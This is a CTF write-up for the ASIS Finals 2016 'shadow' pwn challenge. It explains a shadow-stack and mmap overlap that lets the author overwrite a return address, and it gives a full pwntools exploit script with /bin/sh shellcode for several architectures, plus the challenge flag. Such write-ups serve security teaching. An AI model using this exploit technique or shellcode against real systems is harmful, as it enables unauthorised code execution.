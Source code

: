title: ASIS CTF Finals 2016 -- shadow
tags:
  - CTF
  - ASIS
  - Python
  - Pwnable
  - shellcode
  - heap
categories:
  - write-ups
author: bruce30262
date: 2016-09-13 15:32:00
---
**Category:** pwn
**Points:** 99  

<!-- more -->   
  
32 bit ELF, with no NX, PIE, RELRO protection. The program will first use `mmap` to allocate a range of memory and treat it as a shadow stack, which stores the function return addresses.  
In the main function the program first ask us to input our name (the buffer was placed in the .bss section), then give us two choice:  
  
* Add a beer. This one will first ask us to input the beer description length, then let us input our own beer description.  
* Read/Modify beer desription. Here we first choose one of our beer, and the program will print out the beer description. After that we can choose if we want to modify the beer description or not.  
  
So where's the vulnerability? The program has `malloc` in the add beer function, but it doesn't have `free` in the entire program, so it's probably not UAF. There's a stack overflow in the beer description function though, but the binary has enabled the stack guard protection, so it's kind of hard for us to bypass the canary check. But then I took a good look at the beer description function, and found that we can call the function recursively, by keep entering an invalid choice. This will cause the shadow stack keep "growing up".  
  
And how's that gonna help us to exploit the service? Well, first of all we know that the `malloc` function in libc will call `mmap` instead for the large size memory allocation ( over 0x20000 bytes). Since the add beer function use `malloc` to allocate memory for our beer description, we could try to create a super long beer description. This will make `malloc` call `mmap` instead, and the allocated memory page **will be placed just right before the last mmap memory page, which is the shadow stack.** If we can make the shadow stack keep "growing up", **it will eventually overlapped with the memory page of our beer description**. Since we can control (modify) the beer description, we can then modify the saved return address and change it to the `name` buffer, which we input our shellcode instead.  
  
```python exp_shadow.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()

```
  
After I finshed my exploit, I found that it will timeout due to the crappy internet connection, so I have to upload my exploit to trello and ask my teammate **freetsubasa** to send the payload for me XD  
Anyway the flag is: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`
